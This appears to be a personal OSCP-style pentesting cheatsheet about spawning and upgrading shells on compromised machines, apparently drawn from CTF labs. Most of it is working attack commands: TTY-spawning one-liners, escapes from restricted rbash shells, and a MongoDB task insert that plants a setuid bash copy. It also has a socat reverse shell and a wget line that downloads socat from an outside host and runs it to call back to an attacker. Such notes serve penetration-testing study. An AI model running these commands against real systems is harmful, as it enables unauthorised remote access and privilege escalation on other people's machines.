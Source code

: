 This Is The Cheatsheet: [Spawning Shells · Total OSCP Guide (gitbooks.io)](https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html)

If you don't have a **TTY-shell** you can't run `su`, `sudo`.

# Non-Interactive TTY Shell

**Python**
```python
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

**Echo**
```sh
echo "os.system('/bin/bash')"
```

**sh**
```sh
/bin/sh -i
```

**bash**
```bash
/bin/bash -i
```

**Perl**
```perl
perl -e 'exec "/bin/sh";'
```

**From within VI**
```sh
:!bash
```

---
# Break out of a Restricted Shell
If you can't run basic commands in a shell, it's `rbash`

#### Method 1: PATH/VIM
1) Try to change the [[Path]] variable
![[Pasted image 20231114142221.png]]
```sh
export PATH=/bin:/usr/bin
```

2) If you can't do that, make `.exrc` file
You can store commands and settings that you want executed any time you start the vi or ex editors.
```sh
vi .exrc

# In .exrc
set exrc
set shell=/bin/bash
```

Launch the shell again
```sh
vi
:! /bin/bash
```

If it's successful, then set the [[Path]] variable


#### Method 2: SSH
After logging from SSH, if there is a restricted shell, you can easily break out of the shell by connecting back using this command
```sh
ssh seppuku@192.168.120.206 -t "bash --noprofile"
```
If it's successful, then set the [[Path]] variable

---
# Explanation

`xterm-256color`: Setting TERM to xterm-256color tells the system and applications that the terminal supports 256 colors and can handle advanced text formatting and color output.

`stty rows 67 columns 318` :-
- **stty**:  This command is used to configure and display terminal settings. It stands for "set terminal type."
- **rows 67 columns 318**: These arguments specify the desired number of rows and columns for the terminal's display area. In this case, it's setting the terminal to have 67 rows and 318 columns.

---
# MongoDB Reverse Shell
If MongoDB or app.js is being run as a user (tom in this case), then login to the mongo db & get a reverse shell
```js
db.tasks.insert({"cmd":"/bin/cp /bin/bash /tmp/tom; /bin/chown tom:admin /tmp/tom; chmod
g+s /tmp/tom; chmod u+s /tmp/tom"});
```

OR
Use a Node.js reverse shell & start listener
![[Pasted image 20240319003821.png]]

---
# Interactive TTY Shell
## Method 1: Socat
If `socat` is installed on the victim server, you can launch a reverse shell with it.

```sh
# On Kali-Linux
socat file:`tty`,raw,echo=0 tcp-listen:4444

# On Victim Machine
chmod +x /tmp/socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.161:4444
```

```sh
# If Socat isn't installed on Victim Machine
wget -q https://10.8.139.254/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[IP]:4444
```


## Method 2: Upgrade from [[Netcat & Ncat]]
```sh
# In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z


# In Kali
## Check number of rows and cols of our kali linux
stty -a
stty raw -echo
fg

# In reverse shell (nums and columns of your kali machine)
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 36 columns 189
```


# Get Full shell as a User
```sh
# If you are still in another user's group like this
hatter@wonderland:/home/rabbit$ whoami;id
hatter
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)

# Find the password & su for a full shell
hatter@wonderland:~$ su hatter
hatter@wonderland:~$ id
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
```
